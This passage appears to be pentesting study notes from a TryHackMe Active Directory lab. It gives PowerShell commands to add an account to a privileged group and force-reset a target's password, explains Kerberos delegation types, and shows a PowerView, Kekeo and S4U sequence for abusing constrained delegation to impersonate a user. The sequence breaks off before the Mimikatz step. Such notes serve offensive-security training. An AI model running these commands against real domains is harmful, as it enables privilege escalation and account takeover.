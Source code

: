 {% code overflow="wrap" %}
```powershell
# NOTE: AD-RSAT toolset needed for this commands
Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
Get-ADGroupMember -Identity "IT Support"
Get-ADGroupMember -Identity "Tier 2 Admins"
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
{% endcode %}

## Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server.

### Constrained vs Unconstrained

Unconstrained Delegation provides no limits to the delegation. In the background, if a user with the "TRUSTED\_FOR\_DELEGATION" flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. An attacker could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service.

[here](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

To combat the security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised.

* HTTP - Used for web applications to allow pass-through authentication using AD credentials.
* CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
* LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
* HOST - Allows delegation of account for all activities on the host.
* MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.

### Resource-Based Constrained Delegation

[https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

RBCD changes the delegation model entirely. Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it.

To configure RBCD for a service we can set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. To now gain access to the service, we can generate a TGT for the account we control.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Constrained Delegation Exploitation
# First enum the available delegations
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
# If a service account appears and we have those creds, we can perform Kerberos delegation attack with Kekeo and Mimikatz
# With Kekeo we generate our tickets (/user is the user with constrained delegation permissions)
PS C:\> C:\Tools\kekeo\x64\kekeo.exe
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
# Having TGT now we forge TGS requests for the account we want to impersonate (/user) / NOTE: if there are several services such as WSMAN, HTTP, forge both
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
# Having the TGS, we import them on Mimikatz (pay attention to location path of the tickets)
```